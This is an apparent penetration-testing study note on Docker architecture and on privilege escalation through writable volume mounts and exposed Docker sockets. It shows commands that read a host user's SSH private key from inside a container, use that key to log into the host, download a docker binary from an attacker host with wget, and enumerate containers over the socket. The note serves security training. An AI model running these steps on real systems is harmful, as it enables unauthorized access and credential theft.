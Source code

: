 
## Docker Architecture
- **Client-Server Model**:
  - **Docker Daemon** (server): manages containers/images, isolation, logs, networking, volumes.
  - **Docker Client**: CLI to issue commands via REST API or Unix socket.
- **Docker Compose**: orchestration of multi-container apps using `docker-compose.yml`.
- **Docker Desktop**: GUI for managing containers (supports Kubernetes).


## Privilege Escalation with Docker

### 1. Shared Directories (Volume Mounts)
- Host directories/files mounted inside containers.
- Can persist data, share code, or enable collaboration.
- If RW, attacker can access sensitive host files.

**Example:**
```bash
root@container:/hostsystem/home/cry0l1t3$ ls -l
-rw-------  1 cry0l1t3 cry0l1t3  12559 Jun 30 15:09 .bash_history
drwxr-x--- 10 cry0l1t3 cry0l1t3   4096 Jun 30 15:09 .ssh

root@container:/hostsystem/home/cry0l1t3$ cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
<SNIP>
````

Use key to SSH into host:

```bash
ssh cry0l1t3@<host IP> -i cry0l1t3.priv
```

### 2. Docker Sockets

* Located at `/var/run/docker.sock`.
* Bridge between **client** ↔ **daemon**.
* If exposed/misconfigured → attacker can control Docker.

**Check for socket:**

```bash
ls -al
srw-rw---- 1 root root 0 Jun 30 15:27 docker.sock
```

**If `docker` binary missing, upload it:**

```bash
wget https://<parrot-os>:443/docker -O docker
chmod +x docker
```

**Enumerate containers:**

```bash
/tmp/docker -H unix:///app/docker.sock ps
```
